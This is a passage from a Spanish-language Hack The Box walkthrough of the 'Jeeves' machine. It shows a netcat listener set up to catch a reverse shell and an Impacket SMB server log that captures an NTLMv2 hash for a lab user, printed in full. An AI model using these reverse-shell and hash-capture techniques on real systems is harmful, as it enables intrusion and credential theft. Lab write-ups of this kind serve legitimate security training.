 - Vamos a ponernos en escucha para directamente enviarnos una `reverse shell`.

```bash
❯ rlwrap nc -lvnp 443
Listening on 0.0.0.0 443
```

- Y bueno vamos a escapar las barras para que no entre en conflicto vamos a darle a **Execute**.

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/jeeves/web14.png">
</p>

- Y ganamos acceso además tenemos un **Hash** `NTLMV2`.

```bash
❯ smbserver.py parrotsec . -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.63,49678)
[*] AUTHENTICATE_MESSAGE (JEEVES\kohsuke,JEEVES)
[*] User JEEVES\kohsuke authenticated successfully
[*] kohsuke::JEEVES:aaaaaaaaaaaaaaaa:c23a012c38f0f7005de8ee2b9a5c45c4:010100000000000000f5b20e48add901859a5b91331600a700000000010010004c0058006f0072007a0078004c004b00030010004c0058006f0072007a0078004c004b00020010005a0042005700500078004c006c004400040010005a0042005700500078004c006c0044000700080000f5b20e48add90106000400020000000800300030000000000000000000000000300000ecd30e6e2741e888fe19c320d42d3424341eac95c921e6f32cf839ae34398fa60a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003200000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:parrotsec)
[*] AUTHENTICATE_MESSAGE (\,JEEVES)
[*] User JEEVES\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] AUTHENTICATE_MESSAGE (\,JEEVES)
[*] User JEEVES\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] AUTHENTICATE_MESSAGE (\,JEEVES)
```
